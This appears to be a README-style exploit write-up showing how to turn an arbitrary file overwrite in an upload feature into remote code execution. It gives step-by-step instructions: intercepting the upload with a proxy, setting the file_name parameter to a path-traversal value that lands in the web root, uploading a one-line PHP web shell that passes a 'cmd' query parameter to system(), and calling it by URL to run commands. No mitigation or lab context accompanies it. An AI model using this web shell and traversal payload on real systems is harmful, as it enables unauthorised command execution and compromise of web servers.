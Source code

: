 # Arbitrary File Overwrite to RCE via PHP File Upload

## Overview
This exploit leverages an **Arbitrary File Overwrite** vulnerability to achieve **Remote Code Execution (RCE)** by uploading a `.php` file into the web root.

## Exploit Steps

1. **File Upload Restriction Bypass**
   - The application allows image uploads in `/media` or `/files` directories.
   - However, an Arbitrary File Overwrite vulnerability exists.

2. **Intercepting and Modifying the Request**
   - Use Burp Suite or another proxy tool to intercept the file upload request.
   - Modify the `file_name` parameter to:
     ```
     file_name="../webrootExec.php"
     ```
   - This moves the file to the web root (e.g., `/var/www/html/webrootExec.php`).

3. **Uploading a Malicious PHP File**
   - Create a PHP web shell:
     ```php
     <?php system($_GET['cmd']); ?>
     ```
   - Upload it to the web root.

4. **Achieving Remote Code Execution (RCE)**
   - Access the uploaded file in a browser:
     ```
     http://target.com/webrootExec.php?cmd=whoami
     ```
   - Execute arbitrary system commands.
